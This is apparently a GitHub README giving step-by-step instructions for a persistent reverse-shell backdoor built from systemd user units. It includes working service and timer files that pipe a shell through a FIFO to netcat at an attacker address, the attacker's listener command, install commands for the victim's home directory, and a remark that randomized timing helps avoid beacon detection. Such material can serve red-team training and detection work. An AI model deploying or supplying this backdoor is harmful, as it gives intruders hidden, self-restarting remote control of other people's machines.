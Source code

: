 # Scheduled Reverse Shell

## Description

This sequence of commands sets up a scheduled task, much like the better-known `cron` jobs, to execute
a reverse shell using a FIFO pipe located at `/tmp/backpipe`.

The service file (`revshell.service`) uses:
  * The `Environment` directive to set up the remote host and port to connect to
  * The `ExecStartPre` directive to check fo the FIFO pipe and create it if it does not exist
  * The `ExecStart` directive to execute the backdoor sequence (more info on how it works located in the linked blog below)

## Additional Notes

* The `.timer` file ensures the backdoor gets re-run if the shell drops
* systemd only runs the next scheduled task if the previous task has ended
  * Avoids unnecessary logs
* Tasks will automatically run again if the backdoor ends after the next task was supposed to run
  * systemd will not wait until the timer gets scheduled again
  * e.g. 4.5 minutes after initial run on a per-minute timer
    ```
    [1]       [2]        [3]        [4]          [5]
    run-------skip-------skip-------skip-die-run-skip
    ```
* The `.timer` file will randomize unit execution a bit based on the `AccuracySec` and `RandomizedDelaySec` directives
  * `AccuracySec` is a measure of how accurate systemd must be when executing the associated unit.
    This is done so systemd can attempt to reduce executions that fall within the same time window.
  * `RandomizedDelaySec` randomizes the exact second at which systemd will execute the unit.
    This is done so systemd can minimize the chance many units fire at once and possibly consume too many resources.
    It's also really nice for avoiding beacon detections :)
  * The timer below will first choose a time within the `RandomizedDelaySec`, and then look for a time within `AccuracySec`
    * In reality, this unit will execute sometime between `*:56 - *:05` seconds

## Step by Step
1. Stand up listener on attacker server
```sh
$ nc -nlvp 4444
```

2. Install a service file to create the backdoor on the victim
```ini
$ cat revshell.service
; https://www.freedesktop.org/software/systemd/man/systemd.service.html
[Unit]
Description=A simple reverse shell
Documentation=https://github.com/infosec-intern/sneaky-systemd-shit

[Service]
; https://pen-testing.sans.org/blog/2013/05/06/netcat-without-e-no-problem/
Type=simple
Environment=RHOST="10.10.10.10" RPORT="4444"
ExecStartPre=/bin/sh -c "find /tmp/backpipe || mknod --mode=0666 /tmp/backpipe p"
ExecStart=/bin/sh -c "/bin/sh 0</tmp/backpipe | /bin/nc ${RHOST} ${RPORT} 1>/tmp/backpipe"
```

3. Install a timer file to execute the backdoor at regular intervals (every minute in our case)
```ini
$ cat revshell.timer
; https://www.freedesktop.org/software/systemd/man/systemd.timer.html
[Timer]
AccuracySec=1s
OnCalendar=*-*-* *:*:00
Unit=revshell.service
RandomizedDelaySec=4s
Persistent=true
```

4. Install into the systemd user folder on the victim
```sh
$ mkdir -p ~/.config/systemd/user/
$ ln -s `pwd`/revshell.service ~/.config/systemd/user/
$ ln -s `pwd`/revshell.timer ~/.config/systemd/user/
```

5. Start the scheduled task
```sh
$ systemctl --user start revshell.timer
```

6. Wait for the shell!
```sh
$ nc -nvlp 4444
listening on [any] 4444 ...
connect to [${attacker}] from (UNKNOWN) [${victim}]
```
